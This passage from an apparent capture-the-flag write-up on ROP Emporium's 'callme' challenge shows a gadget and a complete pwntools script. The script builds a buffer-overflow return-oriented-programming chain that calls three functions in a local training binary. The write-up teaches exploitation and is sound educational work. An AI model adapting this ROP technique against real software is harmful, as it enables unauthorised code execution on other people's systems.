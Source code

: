 Looks like we have a candidate right here!
```
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
```
Great! Let's get to the script:

```python
#!/usr/bin/env python3

from pwn import *

context.arch = "amd64"
context.bits = 64
context.endian = "little"

e = ELF("./callme")

io = e.process()

print(io.recvuntil('>'))

payload = b"A" * 40

pops = p64(0x40093c) # pop rdi; pop rsi; pop rdx; ret

c1 = p64(0x400720) # callme_one@plt
c2 = p64(0x0400740) # callme_two@plt 
c3 = p64(0x4006f0) # callme_three@plt

p1 = p64(0xdeadbeefdeadbeef)
p2 = p64(0xcafebabecafebabe)
p3 = p64(0xd00df00dd00df00d)

payload += pops
payload += p1 + p2 + p3
payload += c1

payload += pops
payload += p1 + p2 + p3
payload += c2

payload += pops
payload += p1 + p2 + p3
payload += c3

with open('payload', 'wb') as file:
    file.write(payload)

io.sendline(payload)

print(io.recvrepeat())
```
And now for the flag:
